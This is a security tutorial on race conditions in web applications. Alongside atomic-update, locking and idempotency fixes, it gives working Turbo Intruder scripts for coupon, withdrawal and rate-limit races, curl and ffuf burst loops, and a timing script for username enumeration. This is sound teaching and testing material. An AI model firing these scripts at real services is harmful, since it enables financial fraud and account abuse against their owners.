



# Race Conditions in Web Applications

> **Race conditions occur when two or more operations compete to read and modify shared state, and the final outcome depends on the exact timing — producing unintended, exploitable results.**

---

## 🧠 What Is It? (Beginner Explanation)

Picture two people at two different ATMs, both withdrawing $500 from the **same** bank account that has $500. Normally, the second withdrawal should fail. But here's what happens in a vulnerable system:

```
Person A checks balance:  $500 ✅ Enough funds!
Person B checks balance:  $500 ✅ Enough funds!
Person A withdraws $500:  Balance → $0
Person B withdraws $500:  Balance → -$500 💥
```

Both ATMs checked the balance **before either withdrawal completed** — they saw $500 and both approved. This is a race condition. The system made a decision based on state that was about to change.

In web applications, this happens constantly — shopping carts, coupon codes, gift cards, API rate limits, and bank transfers all rely on reading then updating state. When multiple requests arrive simultaneously, they can all read the same value before any of them write the result.

### Real-World Web Analogy

A coupon that gives 10% off, limited to one use per account:

```
Normal flow:
1. Check if coupon has been used → NO
2. Apply 10% discount
3. Mark coupon as used → YES

Race condition attack (30 requests at once):
All 30 requests reach step 1 simultaneously
All 30 see: coupon used? → NO
All 30 apply 10% discount ❌ (should only happen once)
All 30 try to mark used → first one wins, rest fail silently
```

The attacker gets 30× the discount.

---

## 🏗️ How It Works (Technical Deep Dive)

### The Read-Modify-Write Pattern

Most race conditions exploit this fundamental sequence:

```
1. READ   current state from database/memory
2. CHECK  if the operation is allowed
3. MODIFY update the state
```

If another request sneaks in between steps 1 and 3, both will have read the same state. Both will pass the check. Both will apply modifications.

### The Race Window

The **race window** is the tiny gap of time between when state is read and when it is locked/updated. The smaller the window, the harder the race condition — but HTTP/2 single-packet attacks make even microsecond windows exploitable.



---

## 📊 TOCTOU (Time-of-Check to Time-of-Use)

TOCTOU is a specific class of race condition where there is a gap between **when a condition is checked** and **when the result of that check is acted upon**.



### Common TOCTOU Patterns in Web Apps

| Check | Use | Race Opportunity |
|---|---|---|
| `Is coupon unused?` | Apply coupon discount | Send 50 requests simultaneously |
| `Is balance >= amount?` | Deduct from balance | Concurrent withdrawal requests |
| `Is email not registered?` | Create account | Simultaneous registration requests |
| `Is rate limit not exceeded?` | Process the API call | Burst requests in one TCP packet |
| `Is gift card unredeemed?` | Credit account balance | Parallel redemption requests |
| `Is file not locked?` | Write to file | Concurrent file modification |

---

## 🎯 Web Race Condition Vulnerability Classes

### 1. Limit Overrun (Most Common)

The application enforces a "limit once" rule but fails to do so atomically.

**Examples:**
- Use a discount coupon more than once
- Exceed an API rate limit
- Make more free downloads than allowed
- Send more referral bonuses than the limit

**Vulnerable code pattern (Node.js):**

```javascript
async function applyCoupon(userId, couponCode) {
    // TOCTOU: check happens here
    const coupon = await db.query(
        'SELECT * FROM coupons WHERE code = ? AND used = false', 
        [couponCode]
    );
    
    if (!coupon) {
        return { error: 'Coupon invalid or already used' };
    }
    
    // Race window: between check and update
    await db.query('UPDATE orders SET discount = 10 WHERE user_id = ?', [userId]);
    
    // Mark as used (too late if race condition exploited)
    await db.query('UPDATE coupons SET used = true WHERE code = ?', [couponCode]);
    
    return { success: true };
}
```

**Secure version using atomic DB operations:**

```javascript
async function applyCouponSafe(userId, couponCode) {
    // Atomic update: only succeeds if coupon exists AND is unused
    const result = await db.query(
        'UPDATE coupons SET used = true, used_by = ?, used_at = NOW() ' +
        'WHERE code = ? AND used = false',
        [userId, couponCode]
    );
    
    if (result.affectedRows === 0) {
        return { error: 'Coupon invalid or already used' };
    }
    
    await db.query('UPDATE orders SET discount = 10 WHERE user_id = ?', [userId]);
    return { success: true };
}
```

---

### 2. Concurrent Balance Withdrawals

**Scenario:** Multiple simultaneous withdrawal requests from an account.

```python
# VULNERABLE Python/Flask example
@app.route('/withdraw', methods=['POST'])
def withdraw():
    amount = request.json['amount']
    user_id = get_current_user()
    
    # READ
    balance = db.execute('SELECT balance FROM accounts WHERE id = ?', user_id)
    
    # CHECK
    if balance < amount:
        return jsonify({'error': 'Insufficient funds'}), 400
    
    # RACE WINDOW HERE
    time.sleep(0.001)  # Any DB operation creates a window
    
    # MODIFY
    db.execute('UPDATE accounts SET balance = balance - ? WHERE id = ?', amount, user_id)
    return jsonify({'success': True, 'new_balance': balance - amount})
```

---

### 3. Gift Card Multiple Redemption

```
Attack flow:
1. Obtain gift card code (or buy one legitimately)
2. Prepare 50 identical redemption requests
3. Fire all 50 simultaneously
4. Multiple requests succeed before the card is marked redeemed
5. Account balance increases by 50× gift card value
```

---

### 4. Password Reset Token Race

```
Attack flow:
1. Trigger password reset for target@victim.com
2. Intercept the reset token (or generate your own if predictable)
3. Send 50 simultaneous requests to /reset-password with same token
4. Change password 50 times — if session invalidation is racy,
   attacker can stay logged in after victim resets password
```

---

### 5. Parallel Account Registration

```
Attack flow:
1. Send 30 simultaneous POST /register requests
   with the same email address
2. The server checks "is email taken?" for all 30 at once
3. All 30 see: email not taken → proceed
4. Multiple accounts created with same email
5. Possible account takeover if victim owns the email
```

---

### 6. Rate Limit Bypass

```
Normal:
Request 1 → Counter: 1/10 ✅
Request 2 → Counter: 2/10 ✅
...
Request 10 → Counter: 10/10 ✅
Request 11 → Counter: 11/10 ❌ Rate limited

Race condition:
All 11 requests arrive simultaneously
All read counter as 0/10
All proceed ✅ ✅ ✅ ✅ ✅ ✅ ✅ ✅ ✅ ✅ ✅ (all 11 succeed!)
```

---

## 🚀 HTTP/2 Single-Packet Attack

Traditional race condition testing was unreliable due to network jitter — requests arrive at slightly different times. **HTTP/2 solved this**.

### The Problem with HTTP/1.1

```
Request 1: ──────────[network jitter 23ms]────── arrives at server
Request 2: ──────────[network jitter 31ms]──────── arrives at server
Request 3: ──────────[network jitter 19ms]─────── arrives at server

Arrival spread: up to 12ms → race window may be microseconds → unreliable
```

### HTTP/2 Single-Packet Attack

HTTP/2 allows multiple requests to be multiplexed over a **single TCP connection**. If you send all requests in **one TCP packet**, they all arrive at the server simultaneously and are processed by the same thread pool at virtually the same time.



### Burp Suite - HTTP/2 Single-Packet Attack

```
1. Intercept a request in Burp Proxy
2. Right-click → Send to Repeater
3. Duplicate the tab 20-30 times (Ctrl+R)
4. Ensure all tabs have the same request
5. Click "Send group (parallel)" button
6. Burp will use HTTP/2 single-packet technique automatically

For the parallel send in Burp:
- Select all tabs in the group
- Set "Send group (parallel)" 
- Use "Single-packet attack" mode
```

### Prerequisites for Single-Packet Attack

```
✅ Target must support HTTP/2
✅ All requests must go to the same endpoint
✅ Burp Suite Pro (or manual with h2c)
✅ The race window must cover the vulnerable operation
```

---

## 🐍 Turbo Intruder for Race Conditions

Turbo Intruder is a Burp Suite extension that allows sending large numbers of requests with precise timing control.

### Installation

```
Burp Suite → Extensions → BApp Store → Search "Turbo Intruder" → Install
```

### Basic Race Condition Script

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=30,
        requestsPerConnection=100,
        pipeline=False
    )
    
    # Queue 30 identical requests, all gated behind 'race1'
    for i in range(30):
        engine.queue(target.req, target.baseInput, gate='race1')
    
    # Open the gate — all 30 requests fire simultaneously
    engine.openGate('race1')

def handleResponse(req, interesting):
    table.add(req)
```

### Advanced Script — Coupon Abuse

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=50,
        requestsPerConnection=100,
        pipeline=False
    )
    
    # First request: add item to cart (sequential)
    engine.queue(target.req)
    engine.complete(timeout=10)
    
    # Now send all coupon redemption requests at once
    coupon_request = '''POST /apply-coupon HTTP/2
Host: target.com
Cookie: session=YOUR_SESSION_HERE
Content-Type: application/json

{"coupon": "SAVE10", "order_id": "12345"}'''
    
    for i in range(50):
        engine.queue(coupon_request, gate='coupon_race')
    
    engine.openGate('coupon_race')

def handleResponse(req, interesting):
    # Flag responses that indicate success
    if '200' in req.status and 'discount applied' in req.response.lower():
        interesting = True
    table.add(req)
```

### Script for Rate Limit Bypass

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=100,
        requestsPerConnection=100,
        pipeline=False
    )
    
    # Send 100 requests simultaneously to bypass rate limiting
    for i in range(100):
        engine.queue(target.req, target.baseInput, gate='burst')
    
    engine.openGate('burst')

def handleResponse(req, interesting):
    # Look for non-429 responses (rate limit bypassed)
    if req.status != '429':
        interesting = True
    table.add(req)
```

### Script for Balance Manipulation

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=30,
        requestsPerConnection=30,
        pipeline=False
    )
    
    withdrawal_request = '''POST /api/withdraw HTTP/2
Host: bank.target.com
Cookie: session=YOUR_SESSION
Content-Type: application/json

{"amount": 100, "account": "checking"}'''
    
    for i in range(30):
        engine.queue(withdrawal_request, gate='withdraw_race')
    
    engine.openGate('withdraw_race')

def handleResponse(req, interesting):
    if '"success": true' in req.response:
        interesting = True
    table.add(req)
```

---

## 🔗 Multi-Endpoint Race Conditions

Some race conditions span **multiple different endpoints** or operations.

### Connection Warming

Before the main attack, "warm up" connections so that all requests start from the same TCP state:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(
        endpoint=target.endpoint,
        concurrentConnections=30,
        requestsPerConnection=100,
        pipeline=False
    )
    
    # Warm up connections with harmless requests
    for i in range(5):
        engine.queue('''GET / HTTP/2
Host: target.com
Cookie: session=YOUR_SESSION

''')
    engine.complete(timeout=10)
    
    # Now fire the actual race
    for i in range(30):
        engine.queue(target.req, gate='main_race')
    
    engine.openGate('main_race')
```

### Sequential + Parallel Attack Pattern

```
Step 1: Sequential — Set up state (add item to cart, get token, etc.)
Step 2: Parallel — Exploit the race window in the next operation
Step 3: Sequential — Verify exploitation succeeded
```

---

## 🗄️ Database-Level Race Conditions

### SELECT then UPDATE Pattern (Non-Atomic)

The most common vulnerable pattern in databases:

```sql
-- Thread A reads
SELECT balance FROM accounts WHERE id = 1;  -- returns 100

-- Thread B reads (before Thread A writes)
SELECT balance FROM accounts WHERE id = 1;  -- also returns 100

-- Thread A writes
UPDATE accounts SET balance = 100 - 100 WHERE id = 1;  -- balance = 0

-- Thread B writes (should fail, but doesn't check again)
UPDATE accounts SET balance = 100 - 100 WHERE id = 1;  -- balance = 0 again!
-- Both threads think they withdrew $100, but only $100 was actually in the account
```

### Atomic UPDATE Fix

```sql
-- Atomic: reads and updates in one operation, with conditional check
UPDATE accounts 
SET balance = balance - 100 
WHERE id = 1 AND balance >= 100;

-- Check affected rows: if 0, the balance was insufficient
```

### Pessimistic Locking Fix

```sql
-- Lock the row before reading
BEGIN TRANSACTION;
SELECT balance FROM accounts WHERE id = 1 FOR UPDATE;  -- exclusive lock
-- Now no other transaction can read this row until we commit
UPDATE accounts SET balance = balance - 100 WHERE id = 1;
COMMIT;
```

### Optimistic Locking Fix

```sql
-- Add version column to table
ALTER TABLE accounts ADD COLUMN version INT DEFAULT 0;

-- Include version in WHERE clause
UPDATE accounts 
SET balance = balance - 100, version = version + 1
WHERE id = 1 AND version = 5;  -- only updates if version hasn't changed

-- Check affected rows: if 0, retry the whole transaction
```

---

## 📋 Full Exploitation Methodology

### Step 1: Map State-Changing Operations

Look for any endpoint that:

```
✅ Applies a limit (coupons, trial periods, rate limits)
✅ Transfers value (payments, balance changes, credits)
✅ Changes unique state (email verification, password reset)
✅ Creates exclusive resources (usernames, IDs)
```

### Step 2: Identify the Race Window

```bash
# Test for timing differences manually
for i in {1..10}; do
    time curl -s -X POST https://target.com/apply-coupon \
        -H "Cookie: session=abc123" \
        -d '{"coupon":"SAVE10"}' &
done
wait
```

### Step 3: Set Up Burp/Turbo Intruder

```
1. Intercept the target request in Burp Proxy
2. Right-click → Extensions → Turbo Intruder → Send to Turbo Intruder
3. Select the race condition script template
4. Configure concurrentConnections (start with 30)
5. Run and analyze responses
```

### Step 4: Analyze Results

```
✅ Multiple 200 OK responses for a "one-time" action → race condition confirmed
✅ Balance went negative → concurrent withdrawal race condition  
✅ Rate limit bypass: got 200s instead of 429s → race in rate limiter
✅ Duplicate records created → creation race condition
```

### Step 5: Refine and Maximize Impact

```
- Increase concurrent connections: 30 → 50 → 100
- Try HTTP/2 single-packet mode
- Test from lower-latency network (VPS near target)
- Try at different times of day (server load affects window size)
```

### Step 6: Document and Report

```markdown
## Race Condition in /api/apply-coupon

**Endpoint:** POST /api/apply-coupon
**Vulnerability:** TOCTOU — coupon check and mark-as-used are not atomic
**Impact:** Unlimited coupon application (tested up to 30×)

**Reproduction:**
1. Add item to cart (order_id: X)
2. Send 30 simultaneous POST /api/apply-coupon requests
3. Observe multiple 200 OK "discount applied" responses
4. Verify in account: discount applied 30× instead of once

**CVSS:** 7.5 (High) — direct financial impact
```

---

## ⏱️ Timing Attack Race Conditions

Timing attacks exploit the fact that some operations take different amounts of time depending on their state.

### Password Comparison Timing

```python
# VULNERABLE: timing difference between valid and invalid username
def login(username, password):
    user = db.get_user(username)
    if not user:
        return False  # Returns quickly (no hash comparison)
    
    # Returns slowly (bcrypt comparison)
    return bcrypt.checkpw(password.encode(), user.password_hash)

# ATTACK: measure response time to enumerate valid usernames
# Valid username → slow response (bcrypt running)
# Invalid username → fast response (returns immediately)
```

### Measuring Timing with curl

```bash
# Measure response time for username enumeration
for username in admin root user john test; do
    echo -n "$username: "
    time curl -s -X POST https://target.com/login \
        -d "username=$username&password=wrongpassword" > /dev/null
done
```

### Timing Attack with Python

```python
import requests
import time
import statistics

def measure_login_time(username, password, trials=5):
    times = []
    for _ in range(trials):
        start = time.perf_counter()
        requests.post(
            'https://target.com/login',
            data={'username': username, 'password': password}
        )
        elapsed = time.perf_counter() - start
        times.append(elapsed)
    return statistics.mean(times)

# Compare timing for known valid vs unknown usernames
print(measure_login_time('admin', 'wrongpass'))   # Likely slower
print(measure_login_time('xxxxxxxxxxx', 'wrongpass'))  # Likely faster
```

---

## 🐛 Real Bug Bounty Examples

### HackerOne: Shopify — Gift Card Double Redemption (2015)

- **Platform:** Shopify
- **Vulnerability:** Gift cards could be redeemed multiple times via race condition
- **Attack:** Send simultaneous redemption requests before the card was marked as used
- **Impact:** Unlimited store credit
- **Bounty:** $500
- **Report:** h1.com/reports/49294

### HackerOne: Starbucks — Stars (Points) Race Condition (2016)

- **Platform:** Starbucks
- **Vulnerability:** Transferring stars was not atomic — balance check and deduction were separate operations
- **Attack:** Send concurrent transfer requests
- **Impact:** Create stars out of nothing via concurrent transfers
- **Bounty:** $4,000
- **Report:** h1.com/reports/159456

### HackerOne: GitLab — Concurrent Merge Race Condition

- **Platform:** GitLab
- **Vulnerability:** Race condition in merge request processing
- **Attack:** Fire simultaneous merge requests
- **Impact:** Could merge code that should have been blocked by checks
- **Bounty:** $3,500

### HackerOne: Uber — Concurrent Promotions

- **Platform:** Uber
- **Vulnerability:** Promo codes could be applied multiple times
- **Attack:** Simultaneous promo code application
- **Impact:** Free rides in excess of promotion limit
- **Bounty:** Confidential

---

## 🔍 Detection Methodology

### Automated Scanning

```bash
# Use nuclei for race condition templates
nuclei -u https://target.com -t race-condition/

# Use ffuf for parallel requests
ffuf -u 'https://target.com/api/redeem' \
     -X POST \
     -H 'Content-Type: application/json' \
     -d '{"code":"GIFT123"}' \
     -H 'Cookie: session=abc123' \
     -w /dev/null:FUZZ \
     -rate 1000 \
     -t 50
```

### Manual Testing Checklist

```
□ Find all "one-time" operations (coupons, invites, free trials)
□ Find all balance/credit operations (deposits, withdrawals, transfers)
□ Find all unique resource creation (accounts, usernames)
□ Find all rate-limited endpoints (login, API calls, OTP verification)
□ Find all token-based operations (password reset, email verification)
□ Test each with 20-50 simultaneous requests using Turbo Intruder
□ Test HTTP/2 single-packet mode for precise timing
□ Test at different concurrency levels (10, 30, 50, 100)
```

### Source Code Indicators (if available)

```python
# RED FLAGS in source code — these patterns are often vulnerable:

# Non-atomic check-then-act
if coupon.used == False:     # ← check
    apply_discount()          # ← race window
    coupon.used = True        # ← update

# Non-atomic balance check
if user.balance >= amount:   # ← check
    process_payment()         # ← race window  
    user.balance -= amount    # ← update

# Race in file operations
if not os.path.exists(lockfile):  # ← check
    create_lockfile()              # ← race window
    do_operation()                 # ← might run twice
```

---

## 🛡️ Mitigation

### 1. Atomic Database Operations

```sql
-- Use atomic UPDATE with condition instead of SELECT then UPDATE
UPDATE coupons 
SET used = 1, used_by = ?, used_at = NOW()
WHERE code = ? AND used = 0;
-- Check affected rows; if 0, coupon already used
```

### 2. Database Transactions with Locking

```python
# Python SQLAlchemy example with row locking
def apply_coupon(db, user_id, coupon_code):
    with db.begin():
        coupon = db.execute(
            'SELECT * FROM coupons WHERE code = ? FOR UPDATE',  # Row lock
            coupon_code
        ).fetchone()
        
        if not coupon or coupon.used:
            raise ValueError("Coupon invalid")
        
        db.execute('UPDATE coupons SET used=1 WHERE code=?', coupon_code)
        db.execute('UPDATE orders SET discount=10 WHERE user_id=?', user_id)
        # Lock released on commit
```

### 3. Redis-Based Distributed Locking

```python
import redis
import uuid

redis_client = redis.Redis()

def apply_coupon_with_lock(user_id, coupon_code):
    lock_key = f"coupon_lock:{coupon_code}"
    lock_value = str(uuid.uuid4())
    
    # Try to acquire lock (SET NX EX = atomic set-if-not-exists with expiry)
    acquired = redis_client.set(lock_key, lock_value, nx=True, ex=30)
    
    if not acquired:
        return {"error": "Coupon is being processed, please try again"}
    
    try:
        # Now safely check and apply coupon
        coupon = db.get_coupon(coupon_code)
        if not coupon or coupon.used:
            return {"error": "Invalid coupon"}
        
        db.apply_coupon(user_id, coupon_code)
        return {"success": True}
    finally:
        # Release lock only if we own it
        if redis_client.get(lock_key) == lock_value.encode():
            redis_client.delete(lock_key)
```

### 4. Idempotency Keys

```http
POST /api/payment HTTP/1.1
Host: target.com
Idempotency-Key: unique-request-id-abc123

{"amount": 100}
```

```python
# Server stores idempotency key and returns same response for duplicates
def process_payment(request):
    idempotency_key = request.headers.get('Idempotency-Key')
    
    if idempotency_key:
        cached = cache.get(f"idem:{idempotency_key}")
        if cached:
            return cached  # Return same response as before
    
    result = do_payment(request.json)
    
    if idempotency_key:
        cache.set(f"idem:{idempotency_key}", result, ttl=86400)
    
    return result
```

### 5. Rate Limiting with Atomic Counters

```python
import redis

def check_rate_limit(user_id, limit=10, window=60):
    key = f"rate:{user_id}:{int(time.time() / window)}"
    
    # INCR is atomic in Redis — no race condition possible
    count = redis_client.incr(key)
    
    if count == 1:
        redis_client.expire(key, window)
    
    return count <= limit
```

### 6. Optimistic Locking Pattern

```python
def withdraw_optimistic(account_id, amount, max_retries=3):
    for attempt in range(max_retries):
        account = db.get('SELECT id, balance, version FROM accounts WHERE id=?', account_id)
        
        if account.balance < amount:
            raise InsufficientFundsError()
        
        # UPDATE only succeeds if version hasn't changed
        rows_updated = db.execute(
            'UPDATE accounts SET balance=?, version=? WHERE id=? AND version=?',
            account.balance - amount, account.version + 1, account_id, account.version
        )
        
        if rows_updated == 1:
            return True  # Success
        
        # Version changed → another request beat us, retry
        time.sleep(0.01 * (2 ** attempt))  # Exponential backoff
    
    raise ConcurrentModificationError("Please try again")
```

---

## 📚 References

- [PortSwigger Web Security Academy — Race Conditions](https://portswigger.net/web-security/race-conditions)
- [PortSwigger Research: Smashing the State Machine (2023)](https://portswigger.net/research/smashing-the-state-machine)
- [Turbo Intruder GitHub](https://github.com/PortSwigger/turbo-intruder)
- [HackerOne: Starbucks Stars Race Condition Report](https://hackerone.com/reports/159456)
- [HackerOne: Shopify Gift Card Report](https://hackerone.com/reports/49294)
- [OWASP Race Conditions](https://owasp.org/www-community/vulnerabilities/Race_Conditions)
- [PayloadsAllTheThings — Race Condition](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Race%20Condition)
- [The HTTP/2 Single-Packet Attack Explained](https://portswigger.net/research/smashing-the-state-machine#single-packet-attack)
- [James Kettle — Race Condition Research DEF CON 31](https://www.youtube.com/watch?v=tKJzspcB-AM)
- [Redis Distributed Locks (Redlock)](https://redis.io/docs/manual/patterns/distributed-locks/)
